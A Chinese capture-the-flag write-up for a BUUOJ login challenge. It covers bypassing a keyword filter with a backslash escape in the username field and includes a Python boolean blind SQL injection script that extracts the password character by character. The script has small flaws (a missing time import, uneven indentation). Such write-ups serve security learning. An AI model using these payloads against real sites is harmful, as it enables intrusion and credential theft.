



## 思路
1. 打开网页，直接显示的就是登录框，首先尝试万能密码，`admin' and 1=1#`，密码随便输，发现网页提示hack，说明网页应该有检测输入中是否含有特定关键字，因此可以考虑使用burpsuite的intruder进行测试。

   

   

2. 从robots.txt发现hint.txt，发现线索：

   

3. 利用前面提过的fuzz.txt，进行fuzz。发现union select and = 这些被检测，所以不能使用联合注入。但是用于布尔注入和报错注入的一些关键字均未被检测。

   

4. 参考其他wp，利用**转义符`\`**，将username后面的'转义成普通字符，password字段后面的语句便能逃逸执行。

5. 测试`admin\`，`or 1#`
   此时SQL语句为：`select * from users where username='admin\' and password='or 1#'`

   转义符将'转义成一个普通的字符，因此此时的sql语句实际含义为username=`admin\' and password=`，以及执行后面的or 1 #。

6. 利用password的内容进行布尔注入爆破。

   ```python
   import requests
   url = "http://bc5d0433-45b5-486d-8fdd-541a8662fd10.node3.buuoj.cn/index.php"
   
   data = {"username":"admin\\","password":""}
   result = ""
   i = 0
   
   while( True ):
   	i = i + 1 
   	head=32
   	tail=127
   
   	while( head < tail ):
   		mid = (head + tail) >> 1
   
   		#payload = "or/**/if(ascii(substr(username,%d,1))>%d,1,0)#"%(i,mid)
   		payload = "or/**/if(ascii(substr(password,%d,1))>%d,1,0)#"%(i,mid)
   		
   		data['password'] = payload
   		r = requests.post(url,data=data)
   		while r.status_code == 429:
               print('too fast')
               time.sleep(2)
   		   r = requests.post(url,data=data)
   		if "stronger" in r.text :
   			head = mid + 1
   		else:
   			tail = mid
   	
   	last = result
   	
   	if head!=32:
   		result += chr(head)
   	else:
   		break
   	print(result)
   
   ```

   


## 总结
- **转义符**的使用以及结合盲注

